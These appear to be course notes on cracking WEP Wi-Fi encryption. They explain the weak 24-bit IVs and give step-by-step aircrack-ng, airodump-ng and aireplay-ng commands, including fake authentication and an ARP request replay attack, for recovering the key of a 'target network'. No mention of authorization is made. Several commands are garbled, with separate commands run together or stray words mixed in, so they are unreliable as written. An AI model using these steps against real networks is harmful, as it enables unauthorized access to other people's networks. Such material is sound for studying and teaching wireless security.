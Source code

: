 ### Network Hacking and Gaining Access

#### Wired Equivalent Privacy (WEP)

**Overview:**

- **Old encryption method** using the RC4 algorithm.
- Encrypts data using a key.
- Encrypted packet sent over the air; the router decrypts it using the same key.

**Problems with WEP:**

- Issues with implementation.
- WEP cracking is possible due to vulnerabilities in how keys are generated and used.

**Key Generation in WEP:**

- WEP generates a unique key for each packet using a random Initialization Vector (IV).
- IV is 24-bit only, leading to repeated IVs on busy networks.
- IV is sent in plaintext, making it vulnerable to attacks.
- Repeated IVs can be analyzed to determine the keystream and break encryption.

**Tools:**

- **Aircrack-ng**: Tool used for cracking WEP.

---

### WEP Cracking Process

1. **Capture Packets:**
    
    - Use **airodump-ng** to capture packets from the target network.
    - Analyze the capture for IVs and crack the key using **aircrack-ng**.
2. **Busy Network Process:**
    
    - Put the adapter in monitor mode.
    - Run:
        
        sh
        
        Copy code
        
        `airodump-ng --bssid [target_network_bssid] --channel 1 --write basic-wep wlan0`
        
    - Monitor the data column for the number of useful packets with different IVs.
    - Use:
        
        sh
        
        Copy code
        
        `aircrack-ng basic-wep01.cap`
        
    - If the key is found, it allows connection to the network.
3. **Idle Network Complications:**
    
    - Capturing different IVs takes longer.
    - Force the Access Point (AP) to generate IVs by associating with it before the attack.

---

### Detailed Steps for WEP Cracking on an Idle Network

1. **Monitor Mode Setup:**
    
    - Put adapter in monitor mode:
        
        sh
        
        Copy code
        
        `ifconfig wlan0 down iwconfig wlan0 mode monitor ifconfig wlan0 up`
        
2. **Capture Packets:**
    
    - Open two terminals.
    - First terminal:
        
        sh
        
        Copy code
        
        `airodump-ng --band a wlan0 airodump-ng --bssid [target_network_bssid] --channel 1 --write basic-wep wlan0`
        
    - Second terminal:
        
        sh
        
        Copy code
        
        `ls aircrack-ng basic-wep01.cap`
        
    
    **Note:** Restart Kali and check for best network connection if necessary.
    
3. **Forced IV Generation:**
    
    - Use three terminals.
        
    - First terminal:
        
        sh
        
        Copy code
        
        `airodump-ng --band a wlan0 airodump-ng --bssid [target_network_bssid] --channel 1 --write arprelay wlan0`
        
    - Second terminal:
        
        sh
        
        Copy code
        
        `aireplay-ng --fakeauth 0 -a [bssid] -h [unspec] wlan0`
        
    - Third terminal:
        
        sh
        
        Copy code
        
        `ifconfig copy ether unspec clear aireplay-ng --arpreplay -b [bssid] -h [unspec] wlan0`
        

**ARP Request Replay Attack:**

- Wait for an ARP packet, capture and replay it to cause the AP to produce packets with new IVs until enough IVs are collected.

---

### Steps Summary for ARP Request Replay Attack

1. **First Terminal:**
    
    sh
    
    Copy code
    
    `airodump-ng --band a wlan0 airodump-ng --bssid [target_network_bssid] --channel 1 --write arprelay wlan0`
    
2. **Second Terminal:**
    
    sh
    
    Copy code
    
    `aireplay-ng --fakeauth 0 -a [bssid] -h [unspec] wlan0`
    
3. **Third Terminal:**
    
    sh
    
    Copy code
    
    `ifconfig copy ether unspec clear aireplay-ng --arpreplay -b [bssid] -h [unspec] wlan0`
    
4. **Cracking the Key:**
    
    sh
    
    Copy code
    
    `aircrack-ng arprelay01.cap`
    

By following these steps, you can crack WEP encryption even on idle networks by generating necessary IVs using ARP request replay attacks.
